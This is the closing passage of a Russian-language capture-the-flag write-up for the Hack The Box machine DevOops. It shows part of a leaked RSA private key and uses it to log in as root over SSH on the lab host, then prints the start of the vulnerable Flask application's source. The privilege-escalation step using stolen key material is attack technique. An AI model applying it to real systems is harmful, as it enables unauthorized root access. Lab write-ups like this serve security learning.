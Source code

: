 ```
+qML/WvECgYEAyNoevgP+tJqDtrxGmLK2hwuoY11ZIgxHUj9YkikwuZQOmFk3EffI
+T3Sd/6nWVzi1FO16KjhRGrqwb6BCDxeyxG508hHzikoWyMN0AA2st8a8YS6jiOog
+bU34EzQLp7oRU/TKO6Mx5ibQxkZPIHfgA1+Qsu27yIwlprQ64+oeEr0=
 -----END RSA PRIVATE KEY-----
+
```

SSH-ключ. Заберем на Кали и ~~попробуем авторизоваться~~ авторизуемся с ним под суперпользователем:
```text
root@kali:~# chmod 600 root.key
root@kali:~# ssh -oStrictHostKeyChecking=no -i root.key root@10.10.10.91
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

Last login: Mon Mar 26 06:23:48 2018 from 192.168.57.1
root@gitter:~# whoami
root

root@gitter:~# id
uid=0(root) gid=0(root) groups=0(root)
```

### root.txt
```text
root@gitter:~# cat /root/root.txt
d4fe1e7f????????????????????????
```

DevOops пройден :triumph:

![owned-user.png]({{ "/img/htb/boxes/devoops/owned-user.png" | relative_url }})
{: .center-image}

![owned-root.png]({{ "/img/htb/boxes/devoops/owned-root.png" | relative_url }})
{: .center-image}

![trophy.png]({{ "/img/htb/boxes/devoops/trophy.png" | relative_url }})
{: .center-image}

# Эпилог
## feed.py
Посмотрим, какие символы блочили нам захват исходников `/home/roosa/deploy/src/feed.py` целиком:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# TODO: replace manual upload with proper integration to backend


from flask import Flask, request, redirect, url_for, send_from_directory
from werkzeug.utils import secure_filename
from werkzeug.debug import DebuggedApplication
import re
import os
import xml.sax
import cPickle as pickle
```